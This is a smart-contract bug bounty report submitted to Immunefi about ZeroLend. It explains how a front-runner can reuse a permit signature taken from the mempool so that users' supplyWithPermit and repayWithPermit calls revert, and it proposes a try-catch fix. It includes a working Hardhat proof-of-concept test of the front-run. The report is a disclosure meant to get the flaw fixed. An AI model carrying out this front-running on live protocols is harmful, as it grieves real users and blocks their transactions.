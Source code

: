 # 28970 - \[SC - Medium] Attacker can grief a user by making his supplyW...

Submitted on Mar 3rd 2024 at 19:57:36 UTC by @djxploit for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28970

Report type: Smart Contract

Report severity: Medium

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:

* Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

When a user calls `supplyWithPermit` function, attacker can make the call revert by front-running. This happens because of a missing `try-catch` statement in the `supplyWithPermit` function.

## Vulnerability Details

When `supplyWithPermit` is called, by passing a permit signature, the contract calls the `permit` function of the asset to get approval to spend on behalf of caller. It then calls the `SupplyLogic.executeSupply` function to supply the asset.

So an attacker sees the `supplyWithPermit` call in the mempool, and extracts the permit signature from the call's argument. Attacker then use this permit signature, to directly call the asset's `permit` function. This will give the approval to the contract address, but along with it will increase the user's nonce, thus making the signature invalid for any further use.

Due to this when the original `supplyWithPermit` gets mined, it will revert, as the signature has become invalid. Hence the user's transaction will revert.

## Impact Details

Attacker can grief users by frontrunning the `supplyWithPermit` functions, making that functionality unusable by users. Apart from `supplyWithPermit` the `repayWithPermit` function is also vulnerable to this issue.

## Remediation Details

Implement a try-catch statement. Inside the `supplyWithPermit` function, call the assets `permit` statement using a try statement, and catch any revert. That will resolve the issue.

## References

https://www.trust-security.xyz/post/permission-denied

## Proof of Concept

Here is the test file. The specific test case showing the vulnerability is "Supply with permit test'"

```
import { expect } from 'chai';
import { BigNumber, Signer, utils } from 'ethers';
import { impersonateAccountsHardhat } from '../helpers/misc-utils';
import { ProtocolErrors, RateMode } from '../helpers/types';
import { getFirstSigner } from '@aave/deploy-v3/dist/helpers/utilities/signer';
import { makeSuite, TestEnv } from './helpers/make-suite';
import { HardhatRuntimeEnvironment } from 'hardhat/types';
import {
  evmSnapshot,
  evmRevert,
  DefaultReserveInterestRateStrategy__factory,
  VariableDebtToken__factory,
  increaseTime,
  AaveDistributionManager,
} from '@aave/deploy-v3';
import {
  InitializableImmutableAdminUpgradeabilityProxy,
  MockL2Pool__factory,
  MockL2Pool,
  L2Encoder,
  L2Encoder__factory,
} from '../types';
import { ethers, getChainId } from 'hardhat';
import {
  buildPermitParams,
  getProxyImplementation,
  getSignatureFromTypedData,
} from '../helpers/contracts-helpers';
import { getTestWallets } from './helpers/utils/wallets';
import { MAX_UINT_AMOUNT } from '../helpers/constants';
import { parseUnits } from 'ethers/lib/utils';
import { getReserveData, getUserData } from './helpers/utils/helpers';
import { calcExpectedStableDebtTokenBalance } from './helpers/utils/calculations';

declare var hre: HardhatRuntimeEnvironment;

makeSuite('Pool: L2 functions', (testEnv: TestEnv) => {
  const {
    INVALID_HF,
    NO_MORE_RESERVES_ALLOWED,
    CALLER_NOT_ATOKEN,
    NOT_CONTRACT,
    CALLER_NOT_POOL_CONFIGURATOR,
    RESERVE_ALREADY_INITIALIZED,
    INVALID_ADDRESSES_PROVIDER,
    RESERVE_ALREADY_ADDED,
    DEBT_CEILING_NOT_ZERO,
    ASSET_NOT_LISTED,
    ZERO_ADDRESS_NOT_VALID,
  } = ProtocolErrors;

  let l2Pool: MockL2Pool;

  const POOL_ID = utils.formatBytes32String('POOL');

  let encoder: L2Encoder;

  before('Deploying L2Pool', async () => {
    const { addressesProvider, poolAdmin, pool, deployer, oracle } = testEnv;
    const { deployer: deployerName } = await hre.getNamedAccounts();

    encoder = await (await new L2Encoder__factory(deployer.signer).deploy(pool.address)).deployed();

    // Deploy the mock Pool with a `dropReserve` skipping the checks
    const L2POOL_IMPL_ARTIFACT = await hre.deployments.deploy('MockL2Pool', {
      contract: 'MockL2Pool',
      from: deployerName,
      args: [addressesProvider.address],
      libraries: {
        SupplyLogic: (await hre.deployments.get('SupplyLogic')).address,
        BorrowLogic: (await hre.deployments.get('BorrowLogic')).address,
        LiquidationLogic: (await hre.deployments.get('LiquidationLogic')).address,
        EModeLogic: (await hre.deployments.get('EModeLogic')).address,
        BridgeLogic: (await hre.deployments.get('BridgeLogic')).address,
        FlashLoanLogic: (await hre.deployments.get('FlashLoanLogic')).address,
        PoolLogic: (await hre.deployments.get('PoolLogic')).address,
      },
      log: false,
    });

    const poolProxyAddress = await addressesProvider.getPool();
    const oldPoolImpl = await getProxyImplementation(addressesProvider.address, poolProxyAddress);

    // Upgrade the Pool
    await expect(
      addressesProvider.connect(poolAdmin.signer).setPoolImpl(L2POOL_IMPL_ARTIFACT.address)
    )
      .to.emit(addressesProvider, 'PoolUpdated')
      .withArgs(oldPoolImpl, L2POOL_IMPL_ARTIFACT.address);

    // Get the Pool instance
    const poolAddress = await addressesProvider.getPool();
    l2Pool = await MockL2Pool__factory.connect(poolAddress, await getFirstSigner());
    expect(await addressesProvider.setPriceOracle(oracle.address));
  });

  after(async () => {
    const { aaveOracle, addressesProvider } = testEnv;
    expect(await addressesProvider.setPriceOracle(aaveOracle.address));
  });

  it('Supply with permit test', async () => {
    // user0 is the attacker
    const { deployer, dai, aDai, users: [user0] } = testEnv;

    const chainId = Number(await getChainId());
    const nonce = await dai.nonces(deployer.address);
    const amount = utils.parseEther('10000');
    const highDeadline = '3000000000';
    const userPrivateKey = getTestWallets()[0].secretKey;
    
    const msgParams = buildPermitParams(
      chainId,
      dai.address,
      '1',
      await dai.symbol(),
      deployer.address,
      l2Pool.address,
      nonce.toNumber(),
      highDeadline,
      amount.toString()
    );
    const { v, r, s } = getSignatureFromTypedData(userPrivateKey, msgParams);

    await dai.connect(deployer.signer)['mint(uint256)'](amount);
    const referralCode = BigNumber.from(2);
    
    // Simulate frontrunning
    // Attacker see the below 'supplyWithPermit' call in mempool, so he call the permit() of DAI directly, 
    // by using the signature from the call. This will increase the nonce of the 'deployer', which
    // make the signature invalid for further use.
    await dai.connect(user0.signer)['permit(address,address,uint256,uint256,uint8,bytes32,bytes32)'](deployer.address,l2Pool.address,amount,highDeadline,v,r,s);

    // So when the actual supplyWithPermit call will get mined, it will revert, as the signature has become invalid because
    // of the frontrunning done by attacker, which increased deployer's nonce by directly calling the permit function of DAI.
    await expect(
      l2Pool.connect(deployer.signer)['supplyWithPermit(address,uint256,address,uint16,uint256,uint8,bytes32,bytes32)'](
        dai.address,
        amount,
        deployer.address,
        referralCode,
        highDeadline,
        v,
        r,
        s)
    )
      .to.be.revertedWith(
        "INVALID_SIGNATURE"
    );
  });
});
```
